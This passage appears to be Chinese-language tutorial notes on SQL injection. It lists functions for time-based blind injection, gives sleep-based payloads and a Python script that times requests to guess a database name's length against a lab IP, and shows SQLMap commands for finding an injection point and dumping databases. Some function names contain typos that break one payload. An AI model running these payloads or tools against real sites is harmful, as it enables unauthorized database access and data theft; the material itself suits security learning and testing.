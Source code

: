 时间盲注所需函数大多与布尔相同。

```
length():返回查询字符串的长度
mid(column_name,start,length):截取字符串
subsrt(string,start,length):截取字符串
Left(string,n):截取字符串
ORD():返回字符的ASCII码
ASCII():返回字符的ASCII码
if():逻辑判断
sleep():控制时间
benchmark():控制时间
```

Eg：

```shell
?id=1 and if(length(database()) = 5,sleep(5),1)
?id=1 and if(sustr(database()) = 5,sleep(5),1)
```

Python脚本：

```python
import requests, time

for len in range(1, 50):
    start = time.time()
    header = {"cookie": "PHPSESSID=srb89pb85tbjmbokmao4c7uih4"}
    url = f"http://192.168.72.148/security/read.php?id=1 and if(length(database()) = {len},sleep(3.5),1)"
    resp = requests.get(url=url, headers=header)
    end = time.time()
    resptime = end - start
    if int(resptime) >= 3:
        print(f"数据库的长度为：{len}")
        break
```



## SQL注入-SQLMap工具

### 一、SQLMap拖库

​		SQLMap可以完成注入点的发现，数据库类型的确认，WebShell权限和路径的确认，拖库等一系列的功能。测试的Payload共分为5级：

Level 1 ~ Level 5，Level 1属于基础级，Payload相对较少，Level 5 属于最高级别， Payload很多。

**1、当我们发现注入点的时候**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1"
```

**2、查看所有的数据库**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --dbs
```
